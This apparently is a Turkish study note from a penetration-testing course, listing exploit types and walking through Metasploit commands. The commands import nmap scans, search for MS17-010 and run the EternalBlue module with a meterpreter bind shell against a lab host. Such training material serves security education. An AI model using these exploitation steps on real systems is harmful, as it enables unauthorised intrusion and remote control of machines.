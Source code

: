 # Giriş #
## Exploitler ##
  1. Remote Exploitler
  2. Local Exploitler
  3. Web Exploitleri
  4. DoS Exploitleri - Servis Dışı Bırakma
  5. 0day, 1day
  * PAYLOAD -> karşı tarafta nasıl sömüreceğiz? shell mi almak istiyoruz, firewall kuralları mı yazacağız, backdoor mu açacağız?

# METASPLOIT #
  - `msfupdate`
  - `msfdb init` update sonrası yapmak gerekiyor
  - `msfconsole` metasploit açıldı
  - `ctrl+l` satırı yukarı almak
  - `db_status` postgresql veritabanına bağlı mıyım
  - `workspace -a akademi` akademi çalışma ortamı oluşturuldu
  - `workspace -d akademi` silme
  - `workspace akademi2` gibi aralarında değişim yapılabilir.
  - `nmap 192.168.1.200 -oX 200.xml` metasploit kapalıyken tarama yapıp xml dosyası olarak çıktı aldık.
    - msfconsole'u açtık `db_import /root/200.xml` dosyası içeri aldık.
    - `hosts` diye aradığımda hemen çıkıyor
    - `services
  - `vulns` nessus taramasını da atıp buraya atıp zafiyetleri görebiliriz
---
  - `db_nmao 192.168.1.113 -sV` taramasını yaptık direkt olarak kaydedildi.
    - `hosts`
    - `services`
      - `services -h` help dosyası
      - `services -S vsftp` vsftp içerenleri getir
      - `services -S http` http yerine tcp veya udp de yazılabilir.
  - `help`
  - `search ms17-010` ms17-010 zafiyeti ile ilgili bir şey var mı diye aratıyoruz
    - `info 1` 1 numaralı zafiyetin bilgileri
    - `use 1` 
       - `options` RPORT 445, RHOSTS boş
       - `set THREADS 10` 10 thread'te tara
       - `set RHOSTS 192.168.1.200` tek bir hedef belirledik 
       - `services -p 445` 445 portu açık olanlar neler?
       - `services -p 445 -R` böyle yaparak direkt olarak sonucu RHOSTS'a ekledik
       - `run` exploit çalıştı. zafiyet olup olmadığını söyledi.  (VULNERABLE- Host does NOT appear vulnerable)
       - `back` modülden çıktık
  - `search ms17-010` tekrar. eternalblue olanı seçicez
    - `use 2`
    - `options`
    - `set RHOSTS 192.168.1.200`
    - `show targets` windows 7 r2'de çalışıyor sadece
    - _Payload options (windows/x64/meterpreter/reverse_tcp):_  bu zaten default olarak geldi
    - `show payloads` 
      - bind_tcp ile reverse_tcp farkı nedir?
      - Reverse Shell: zafiyeti sömür ve sisteme "ben seni kendi makinemde 4444'te bekliyorum gel bana bağlan ve komut satırını ver" veya meterpretere içeri girdiğini söyle buradan konuşalım diyor.
      - Bind Shell: Karşıdaki zafiyeti sömürdük ve karşı makinede bir port açıyoruz. Biz o porta gidiyoruz. 
      - Neden bunlara ihtiyaç duyuluyor. firewall olsa arada reverse burada daha iyi. 
    - `set PAYLOAD windows/x64/meterpreter/bind_tcp`
    - `run`